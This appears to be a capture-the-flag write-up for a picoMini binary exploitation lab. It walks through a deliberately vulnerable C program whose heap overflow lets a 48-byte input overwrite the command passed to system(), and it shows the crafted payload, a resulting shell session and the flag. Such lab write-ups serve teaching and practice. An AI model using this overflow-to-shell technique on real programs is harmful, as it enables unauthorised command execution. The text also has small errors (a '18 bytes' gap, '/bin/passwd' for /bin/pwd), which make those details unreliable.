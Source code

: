 Hello , And welcome to this writup , We are going to solve Input injection 2 from binary exploitation category in picoMini africa by CTMU ,Without futher ado let`s dive in .


**You are given the following program :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(void) {
	char* username = malloc(28);
	char* shell = malloc(28);
	
	printf("username at %p\n", username);
    fflush(stdout);
	printf("shell at %p\n", shell);
    fflush(stdout);
	
	strcpy(shell, "/bin/pwd");
	
	printf("Enter username: ");
    fflush(stdout);
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
    fflush(stdout);
	
	return 0;
}
```
# Key insights :
1.it allocates 28 bytes on the heap using malloc (two times).

So now , username and shell pointers ,point at the base adress of the allocated buffers .

2.It prints the base adress of each buffer with this line :
```
printf("username at %p\n", username);
printf("shell at %p\n", shell);
```
This is used to help you determine which buffer is above the other (It is not necessary , we can determine that manually using gdb) .

3.It uses the vulnerable strcpy (no length checks , thus vulnerable to buffer overflows) ,to copy "/bin/pwd" to the shell buffer (which is obviuosly a linux command ).

4.It requests input from user using vulnerable ```scanf```, finally it prints a greeting and calls ```system``` on /bin/passwd 


## What we can do :
By observing the base adresses of the buffers , we notice that buffer ```username``` is in a lower adress than shell buffer .

So we might try to overflow username , to potentialy insert whatever command we want in shell buffer .

If you subtracted the base adresses from each other you will get :```0x30```

Which is as follows :
```
28 bytes for username buffer ,then 18 bytes seperating the buffers 
```

So , based on  that we craft the input using this python3 script :
```
'A'*48 +"/bin/bash"
```

Finally , run the program and put the resulting string , and you will get :
```
username at 0x20abe2a0
shell at 0x20abe2d0
Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/bash
pwd
/home/ctf-player
ls -la
total 16
drwxr-xr-x 1 ctf-player ctf-player   22 Sep 26 20:27 .
drwxr-xr-x 1 root       root         24 Sep 26 20:27 ..
-rw-r--r-- 1 ctf-player ctf-player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ctf-player ctf-player 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ctf-player ctf-player  807 Feb 25  2020 .profile
-r-------- 1 ctf-player ctf-player   34 Sep 26 20:27 flag.txt
cat flag.txt
picoCTF{us3rn4m3_2_sh3ll_466d4bae} 
```

**And thats it , hope you enjoyed**